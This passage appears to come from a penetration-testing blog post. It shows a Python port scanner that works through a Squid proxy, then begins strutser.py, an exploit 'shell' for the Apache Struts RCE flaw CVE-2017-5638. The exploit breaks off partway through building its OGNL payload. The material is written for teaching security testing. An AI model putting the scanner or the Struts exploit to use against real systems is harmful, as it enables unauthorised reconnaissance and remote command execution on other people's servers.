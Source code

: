 ```
URL = 'http://' + args.host

openports=set()

for portto in range(args.begin, args.end):
    repla = requests.get(URL + ':' + str(portto), proxies=proxies)
    if (not ('(111) Connection refused' in repla.text)): 
      print('------ PORT : ' + str(portto))
      print(repla.text)
      openports.add(portto)
    if ((portto % 19) == 18):
      print("still working .. (port " + str(portto) + ")")
    
print("----------------")
print("SCAN COMPLETE")
print("----------------")
print("OPEN PORTS: ")
for portto in openports:
  print(portto)
```


The scanner takes necessary information for the scan from command line arguments. Then it simply sends requests in a single thread and detects open ports based on the reply it gets from the squid proxy. After every 19th requested port it reports that it's still running so that we can see progress. Very straightforward, but not stealthy or very professional. Yet, very handy.

Not convinced yet? Let's take another example.

### Abusing Struts to gain a "shell" with RCE vulnerability

Remote Code Execution (RCE) is one of the coolest security vulnerabilities one can find in a system. Sometimes it's as easy as putting the command in one HTTP GET parameter, but usually it involves some tricks.

The [CVE-2017-5638](https://www.cvedetails.com/cve/CVE-2017-5638/) is one link in a long chain of RCE vulnerabilities related to OGNL handling in [Apache Struts](https://struts.apache.org/). For example, see [CVE-2013-1965](https://www.cvedetails.com/cve/CVE-2013-1965/), [CVE-2013-2134](https://www.cvedetails.com/cve/CVE-2013-2134/) or [CVE-2016-4461](https://www.cvedetails.com/cve/CVE-2016-4461/). Input handling is still difficult.

The CVE-2017-5638 tells us that we can execute Java code by sending it in *Content-Type* header. And since nobody really uses the Java security restrictions, we can call system exec and execute pretty much any operating system commands. Of course we are still limited by the user privileges of the user running the Struts application, but it's still huge. Manually crafting the payloads is tedious, so let's create a "shell" with Python. I have written other similar shells for other vulnerabilities, so this can serve as a template for exploiting other RCE vulnerabilities as well.

**strutser.py**
```
#!/usr/bin/python
#
# Apache Struts RCE exploiter CVE-2017-5638, shell-like experience

import os
import sys
import base64
import socket
import urllib
import requests

def runStruts(cmd, URL, PROXY):

  payload = "%{(#_='multipart/form-data')."
  payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
  payload += "(#_memberAccess?"
```